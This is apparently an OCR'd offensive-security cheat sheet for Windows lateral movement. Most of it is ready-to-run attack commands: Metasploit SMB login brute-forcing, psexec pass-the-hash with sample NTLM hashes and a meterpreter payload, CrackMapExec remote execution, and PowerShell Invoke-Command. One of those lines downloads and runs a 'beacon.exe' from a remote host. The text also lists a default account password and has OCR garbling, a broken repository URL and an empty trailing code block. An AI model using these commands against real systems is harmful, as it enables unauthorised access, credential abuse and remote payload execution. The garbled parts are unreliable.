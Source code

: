 # Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard
```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```
## Metasploit0SMB
```c
$ use auxiliary/scanner/smb/smb_login  
$ set SMBDomain DOMAIN  
$ set SMBUser username
$ set SMBPass password
$ services -p 445 -R  
$ run
$ creds
```
### pass the hash PS.exec
<! -- Note: the password can be replaced by a hash to execute a `pass the hash` attack. -->
```c
$ use exploit/windows/smb/psexec
$ set RHOST 10.2.0.3
$ set SMBUser username
$ set SMBPass password
$ set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
$ set PAYLOAD windows/meterpreter/bind_tcp
$ run
$ shell
```
## Crack_map.exec
```powershell
>root@payload$ git clone https://github.com/byt3bl33d3r/CrackMapExec.github
>root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -x 'whoami' # cmd
>root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -X 'whoami' # powershell
>root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method atexec -x 'whoami'
>root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method wmiexec -x 'whoami'
>root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -x 'whoami'
```
## Remote Code Execution (RSE) with PS Credentials
```powershell
PS C:\> $SecPassword = ConvertTo-SecureString 'secretpassword' -AsPlainText -Force
PS C:\> $Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USERNAME', $SecPassword)
PS C:\> Invoke-Command -ComputerName DC01 -Credential $Cred -ScriptBlock {whoami}
PS C:\> New-PSSESSION -NAME PSDC -ComputerName COMPUTER01; Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {whoami}
PS C:\> Invoke-Command -ComputerName COMPUTER01 -ScriptBlock {powershell Invoke-WebRequest -Uri 'http://10.10.10.10/beacon.exe' -OutFile 'C:\Temp\beacon.exe'; Start-Process -wait C:\Temp\beacon.exe}
```
## WinRM
Require:
* Port **5985** or **5986** open.
* Default endpoint is **/wsman**
```powershell
```